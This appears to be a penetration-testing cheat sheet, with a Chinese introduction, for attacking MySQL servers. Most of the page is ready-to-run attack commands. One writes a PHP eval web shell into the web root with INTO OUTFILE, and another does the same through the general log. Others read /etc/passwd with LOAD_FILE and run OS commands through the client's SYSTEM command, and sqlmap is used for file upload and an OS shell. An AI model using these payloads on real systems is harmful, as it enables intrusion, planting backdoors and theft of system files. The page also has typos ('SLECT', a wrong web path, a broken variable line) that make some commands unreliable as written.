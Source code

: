 # MySQL

<details>

<summary>Introduction</summary>

MySQL 是一个开源的关系型数据库管理系统（RDBMS），广泛用于存储和管理结构化数据。它支持多种操作系统，并提供了丰富的功能，如数据存储、检索、修改和删除等。MySQL 采用客户端-服务器架构，其中客户端应用程序通过 SQL（Structured Query Language）与服务器进行交互。MySQL 具有良好的性能、可靠性和可扩展性，并支持事务处理和复制等高级功能。它被广泛应用于 Web 开发、企业应用、电子商务和数据分析等各种场景中，是最流行的关系型数据库之一。

</details>

<table><thead><tr><th width="178">Name</th><th>MySQL</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>3306</td></tr><tr><td><strong>RCE</strong></td><td>Feasible</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>File Write</li><li>File Read</li><li>Remote Command Execution</li><li>Get Shell</li></ul></td></tr></tbody></table>

## File Write

```bash
# Query the path with write permissions
# if it is empty, it means that it can write to any path
# before MySQL version 5.7 it is empty by default
SHOW GLOBAL VARIABLES LIKE '%secure_file_priv%';

# Use the INTO OUTFILE statement
SELECT '<?php @eval($_REQUEST['exec']);?>' INTO OUTFILE '/var/ww/html/phpinfo.php';

# Use the log function
SHOW VARIABLES LIKE '%general%';
SET GLOBAL general_log = "ON";
SET GLOBAL general_log_file="/var/www/html/shell.php";
SLECT '<?php phpinfo(); ?>';

# Use sqlmap
sqlmap -u "URL" --file-write="/LOCAL/PATH/FILE" --file-dest="/REMOTE/PATH/FILE"
```

## File Read

```bash
# LOAD_FILE 语句读取文件
# Use LOAD_FILE segment
SELECT LOAD_FILE( "/etc/passwd" );

# Use LOAD DATA INFILE ... INTO TABLE segment
USE mysql;
LOAD DATA INFILE '/etc/passwd' INTO TABLE user;
SELECT * FROM user;
```

## Remote Command Execution

{% code title="Environment" %}
```bash
HOST=; $USNM=root; $PSWD=root; # TARGET HOST INFO
```
{% endcode %}

```bash
# Use SYSTEM segment (MySQL version 5.x)
mysql -h$HOST -u$USNM -p$PSWD
# IN MySQL CLI
SYSTEM cat /etc/passwd;
```

## GetShell

```bash
# Use sqlmap (you need to know the absolute path of website)
sqlmap -u "URL" --os-shell
```
